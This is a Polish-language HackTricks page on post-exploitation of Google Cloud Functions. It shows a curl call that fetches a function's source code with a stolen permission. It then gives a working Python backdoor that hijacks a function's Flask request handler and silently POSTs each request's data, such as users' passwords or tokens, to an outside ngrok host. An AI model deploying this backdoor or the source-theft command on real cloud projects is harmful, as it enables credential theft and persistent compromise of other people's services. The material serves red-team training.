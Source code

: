 # GCP - Cloud Functions Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Functions

Znajdź informacje o Cloud Functions w:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.sourceCodeGet`

Dzięki temu uprawnieniu możesz uzyskać **podpisany URL, aby móc pobrać kod źródłowy** Cloud Function:

{% code overflow="wrap" %}
```bash
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions/{function-name}:generateDownloadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

### Kradzież żądań funkcji chmurowej

Jeśli funkcja chmurowa zarządza wrażliwymi informacjami, które użytkownicy wysyłają (np. hasła lub tokeny), przy wystarczających uprawnieniach możesz **zmodyfikować kod źródłowy funkcji i wyeksportować** te informacje.

Ponadto, funkcje chmurowe działające w pythonie używają **flask** do udostępniania serwera internetowego. Jeśli w jakiś sposób znajdziesz lukę w kodzie wewnątrz procesu flaks (na przykład lukę SSTI), możliwe jest **nadpisanie obsługi funkcji**, która ma odbierać żądania HTTP na **złośliwą funkcję**, która może **wyeksportować żądanie** przed przekazaniem go do legitnego obsługującego.

Na przykład ten kod implementuje atak:
```python
import functions_framework


# Some python handler code
@functions_framework.http
def hello_http(request, last=False, error=""):
"""HTTP Cloud Function.
Args:
request (flask.Request): The request object.
<https://flask.palletsprojects.com/en/1.1.x/api/#incoming-request-data>
Returns:
The response text, or any set of values that can be turned into a
Response object using `make_response`
<https://flask.palletsprojects.com/en/1.1.x/api/#flask.make_response>.
"""

if not last:
return injection()
else:
if error:
return error
else:
return "Hello World!"



# Attacker code to inject
# Code based on the one from https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py

new_function = """
def exfiltrate(request):
try:
from urllib import request as urllib_request
req = urllib_request.Request("https://8b01-81-33-67-85.ngrok-free.app", data=bytes(str(request._get_current_object().get_data()), "utf-8"), method="POST")
urllib_request.urlopen(req, timeout=0.1)
except Exception as e:
if not "read operation timed out" in str(e):
return str(e)

return ""

def new_http_view_func_wrapper(function, request):
def view_func(path):
try:
error = exfiltrate(request)
return function(request._get_current_object(), last=True, error=error)
except Exception as e:
return str(e)

return view_func
"""

def injection():
global new_function
try:
from flask import current_app as app
import flask
import os
import importlib
import sys

if os.access('/tmp', os.W_OK):
new_function_path = "/tmp/function.py"
with open(new_function_path, "w") as f:
f.write(new_function)
os.chmod(new_function_path, 0o777)

if not os.path.exists('/tmp/function.py'):
return "/tmp/function.py doesn't exists"

# Get relevant function names
handler_fname = os.environ.get("FUNCTION_TARGET") # Cloud Function env variable indicating the name of the function to habdle requests
source_path = os.environ.get("FUNCTION_SOURCE", "./main.py") # Path to the source file of the Cloud Function (./main.py by default)
realpath = os.path.realpath(source_path) # Get full path

# Get the modules representations
spec_handler = importlib.util.spec_from_file_location("main_handler", realpath)
module_handler = importlib.util.module_from_spec(spec_handler)

spec_backdoor = importlib.util.spec_from_file_location('backdoor', '/tmp/function.py')
module_backdoor = importlib.util.module_from_spec(spec_backdoor)

# Load the modules inside the app context
with app.app_context():
spec_handler.loader.exec_module(module_handler)
spec_backdoor.loader.exec_module(module_backdoor)

# make the cloud funtion use as handler the new function
prev_handler = getattr(module_handler, handler_fname)
new_func_wrap = getattr(module_backdoor, 'new_http_view_func_wrapper')
app.view_functions["run"] = new_func_wrap(prev_handler, flask.request)
return "Injection completed!"

except Exception as e:
return str(e)
```

